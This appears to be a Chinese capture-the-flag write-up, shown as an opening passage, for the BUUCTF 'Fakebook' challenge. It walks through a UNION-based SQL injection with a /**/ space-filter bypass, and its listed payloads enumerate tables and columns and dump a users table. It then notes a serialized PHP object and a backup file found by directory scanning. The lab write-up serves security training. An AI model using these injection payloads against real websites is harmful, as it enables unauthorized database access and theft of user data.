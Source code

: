 ## 0x01 Fakebook

本题考点为SQL注入和SSRF，首先随意注册一个账户，进行登录后发现网址为

```
http://125afc2e-8d0c-4333-9d75-14d7fa2d63f1.node3.buuoj.cn/view.php?no=1
```

推断no=1为可注入点

进行注入后发现屏蔽空格，将空格换为`/**/`进行绕过屏蔽字，构造payload完成SQL注入获取内部的信息

Payload：

```
no=1 order by 4#  //发现order by 5时出现报错，推断有四列
no=0/**/union/**/select 1,2,3,4#  //通过报错页面得知2有回显
no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
                //爆表名发现有一个users表
no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
                //爆字段名发现username、passwd和data，username和passwd没有发现flag，data中发现一个反序列化对象
no=0/**/union/**/select 1,group_concat(data),3,4 from users#  //爆出data的值
```

发现data值为

```
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:1;s:4:"blog";s:9:"1.1.1.com";}
```

同时使用dirsearch扫描目录发现`user.php.bak`





